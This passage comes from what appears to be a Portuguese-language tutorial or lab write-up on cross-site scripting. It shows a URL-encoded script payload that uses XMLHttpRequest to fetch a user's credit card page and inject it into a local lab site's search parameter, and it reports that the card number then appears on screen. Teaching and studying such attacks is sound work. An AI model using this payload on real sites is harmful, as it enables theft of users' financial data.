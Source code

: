Convertendo para *URL Encode*:

```
%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%20%0A%09%7B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20req.responseText%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F14%2FcreditCard%2F%3Fuser%3Dh41stur%22%2C%20true%29%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/17/?search=%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%20%0A%09%7B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20req.responseText%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F14%2FcreditCard%2F%3Fuser%3Dh41stur%22%2C%20true%29%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E](http://localhost/17/?search=%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%20%0A%09%7B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20req.responseText%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F14%2FcreditCard%2F%3Fuser%3Dh41stur%22%2C%20true%29%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E)

Ao acessar a URL, temos o número do cartão impresso na tela.

![Resultado](/img/posts/2023-06-21-beyond-the-alert-47.png)
